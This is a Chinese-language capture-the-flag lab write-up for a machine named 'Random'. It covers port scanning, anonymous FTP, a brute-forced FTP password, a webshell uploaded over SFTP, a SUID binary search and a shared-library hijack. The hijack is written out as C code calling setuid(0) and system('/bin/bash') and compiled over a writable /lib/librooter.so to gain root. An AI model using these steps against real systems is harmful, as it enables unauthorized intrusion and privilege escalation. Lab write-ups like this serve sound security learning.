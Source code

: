 # Random

## FTP匿名登录

`fscan`扫描发现`ftp`匿名登录

```bash
$ fscan -h 192.168.1.128 -p 1-65535

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
192.168.1.128:80 open
192.168.1.128:21 open
192.168.1.128:22 open
[*] alive ports len is: 3
start vulscan
[*] WebTitle http://192.168.1.128      code:200 len:185    title:None
[+] ftp 192.168.1.128:21:anonymous
   [->]html
```

但是上去之后无法修改，访问网页发现说是关闭了`eleanor`的`ssh`访问

![](./img/Random-1.png)

## FTP密码爆破

可以得知两个用户名`alan`和`eleanor`，`ftp`匿名登录也没有进入`html`目录的权限，`dirsearch`也没找到东西，因为说禁用了`eleanor`的`ssh`登录权，这里先尝试`ftp`

![](./img/Random-2.png)

发现密码为`ladybug	`,`ftp`连接能正常下载文件，`index.html`就是主页内容，但是无法上传

![](./img/Random-3.png)

![](./img/Random-4.png)

## SFTP上传shell

但是使用`sftp`连接能正常上传`webshell`

![](./img/Random-5.png)

蚁剑连接

![](./img/Random-6.png)



因为后面可能要提权，先反弹`shell`出来，虽然`eleanor`不能`ssh`登录，但知道密码，可以`su`切换用户

![](./img/Random-7.png)

查找可提权的文件

```bash
find / -perm -4000 2>/dev/null
```

![](./img/Random-8.png)

发现`random`文件，下载下来逆向一下

![](./img/Random-9.png)

就是检测以当前时间为种子的随机数的0-9的余数能不能与我们输入的值相等，只要一直输入0-9之间的数就可以匹配上

![](./img/Random-10.png)

但是返回的用户还是我们自己，看一下`makemeroot`函数没有内容

![](./img/Random-11.png)

## 动态链接库劫持

可能是调用了本地的动态链接库，使用

```bash
$ ldd random
```

![](./img/Random-12.png)

`/lib/librooter.so`链接库是可写的

```bash
$ ls -al /lib/librooter.so
-rwxrwxrwx 1 root root 15984 Oct 19  2020 /lib/librooter.so
```

`glibc`版本号为，但是这里他本地有`gcc`，直接用他的`gcc`编译

```bash
$ ls -l /lib/x86_64-linux-gnu/libc.so.6
lrwxrwxrwx 1 root root 12 May  1  2019 /lib/x86_64-linux-gnu/libc.so.6 -> libc-2.28.so
```

替换为

```c
#include <stdlib.h>

void makemeroot()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```

```bash
$ gcc -shared demo.c -o /lib/librooter.so
demo.c: In function ‘makemeroot’:
demo.c:5:9: warning: implicit declaration of function ‘setuid’; did you mean ‘setenv’? [-Wimplicit-function-declaration]
         setuid(0);
         ^~~~~~
         setenv
demo.c:6:9: warning: implicit declaration of function ‘setgid’; did you mean ‘setenv’? [-Wimplicit-function-declaration]
         setgid(0);
         ^~~~~~
         setenv
```

![](./img/Random-13.png)